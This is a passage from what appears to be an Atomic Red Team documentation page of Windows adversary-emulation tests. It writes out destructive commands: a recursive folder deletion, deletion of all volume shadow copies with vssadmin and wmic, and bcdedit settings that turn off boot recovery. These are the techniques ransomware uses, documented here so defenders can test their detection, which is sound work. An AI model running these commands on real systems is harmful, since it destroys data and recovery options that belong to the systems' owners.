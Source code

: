 **Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| folder_to_delete | Path of folder to delete | Path | C:\Windows\Temp\victim-files-ps|

#### Run it with `powershell`! ```
Remove-Item -path "#{folder_to_delete}" -recurse
```



<br/>
<br/>

## Atomic Test #8 - Delete VSS - vssadmin
Delete all volume shadow copies with vssadmin.exe

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
vssadmin.exe Delete Shadows /All /Quiet
```



<br/>
<br/>

## Atomic Test #9 - Delete VSS - wmic
Delete all volume shadow copies with wmic

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
wmic shadowcopy delete
```



<br/>
<br/>

## Atomic Test #10 - bcdedit
This test leverages `bcdedit` to remove boot-time recovery measures.

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
```

